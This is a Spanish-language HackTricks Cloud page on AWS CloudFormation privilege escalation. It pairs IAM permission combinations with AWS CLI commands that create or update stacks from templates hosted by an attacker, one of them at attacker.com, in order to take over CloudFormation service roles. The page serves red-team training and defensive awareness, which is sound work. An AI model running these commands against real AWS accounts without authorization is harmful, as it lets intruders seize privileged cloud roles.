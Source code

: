 # AWS - Cloudformation Privesc

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}

## cloudformation

Para más información sobre cloudformation consulta:

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un atacante con estos permisos **puede escalar privilegios** creando un **stack de CloudFormation** con una plantilla personalizada, alojada en su servidor, para **ejecutar acciones bajo los permisos de un rol especificado:**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
En la siguiente página tienes un **ejemplo de explotación** con el permiso adicional **`cloudformation:DescribeStacks`**:

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

En este caso puedes **abusar de una pila de cloudformation existente** para actualizarla y escalar privilegios como en el escenario anterior:
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La `cloudformation:SetStackPolicy` permiso se puede utilizar para **darte a ti mismo el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation especificado.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si tienes este permiso pero **sin `iam:PassRole`** aún puedes **actualizar las pilas** utilizadas y abusar de los **roles de IAM que ya tienen adjuntos**. Consulta la sección anterior para un ejemplo de explotación (simplemente no indiques ningún rol en la actualización).

La `cloudformation:SetStackPolicy` permiso se puede utilizar para **darte a ti mismo el permiso `UpdateStack`** sobre una pila y realizar el ataque.

**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un atacante con permisos para **pasar un rol y crear & ejecutar un ChangeSet** puede **crear/actualizar una nueva pila de cloudformation abusando de los roles de servicio de cloudformation** al igual que con CreateStack o UpdateStack.

La siguiente explotación es una **variación de la**[ **CreateStack one**](./#iam-passrole-cloudformation-createstack) utilizando los **permisos de ChangeSet** para crear una pila.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permiso `cloudformation:SetStackPolicy` se puede usar para **darte permisos de `ChangeSet`** sobre un stack y realizar el ataque.

**Impacto Potencial:** Privesc a roles de servicio de cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Esto es como el método anterior sin pasar **roles de IAM**, así que solo puedes **abusar de los ya adjuntos**, solo modifica el parámetro:
```
--change-set-type UPDATE
```
**Impacto Potencial:** Privesc al rol de servicio de cloudformation ya adjunto.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un atacante podría abusar de estos permisos para crear/actualizar StackSets y abusar de roles de cloudformation arbitrarios.

**Impacto Potencial:** Privesc a los roles de servicio de cloudformation.

### `cloudformation:UpdateStackSet`

Un atacante podría abusar de este permiso sin el permiso passRole para actualizar StackSets y abusar de los roles de cloudformation adjuntos.

**Impacto Potencial:** Privesc a los roles de cloudformation adjuntos.

## Referencias

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
